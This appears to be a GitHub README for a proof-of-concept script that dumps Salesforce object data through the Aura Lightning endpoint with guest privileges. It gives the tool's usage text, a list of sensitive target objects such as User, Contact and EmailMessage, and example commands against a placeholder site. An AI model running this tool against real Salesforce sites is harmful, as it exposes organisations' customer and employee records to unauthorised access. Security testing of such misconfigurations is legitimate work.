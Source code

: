 # PoC for Salesforce lightning
***Academic purposes Only***. 

This tool dumps the data of Salesforce object through Aura lightning endpoint with the guest privilege.

# Requirement
- Python3 

# Usage
```
$ python exploit.py -h
usage: exploit.py [-h] -u URL [-o [OBJECTS [OBJECTS ...]]] [-l] [-c]
                  [-a AURA_CONTEXT]

Exploit Salesforce through the aura endpoint with the guest privilege

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     set the SITE url. e.g. http://url/site_path
  -o [OBJECTS [OBJECTS ...]], --objects [OBJECTS [OBJECTS ...]]
                        set the object name. Default value is "User" object.
                        Juicy Objects: Case,Account,User,Contact,Document,Cont
                        entDocument,ContentVersion,ContentBody,CaseComment,Not
                        e,Employee,Attachment,EmailMessage,CaseExternalDocumen
                        t,Attachment,Lead,Name,EmailTemplate,EmailMessageRelat
                        ion
  -l, --listobj         pull the custom object list.
  -c, --check           only check aura endpoint
  -a AURA_CONTEXT, --aura_context AURA_CONTEXT
                        set your valid aura_context

$ python exploit.y -u https://domain.force.com/sitepath -l
$ python exploit.y -u https://domain.force.com/sitepath -o User Account
```

# Reference
- Salesforce Lightning - An in-depth look at exploitation vectors for the everyday community
  - https://www.enumerated.de/index/salesforce
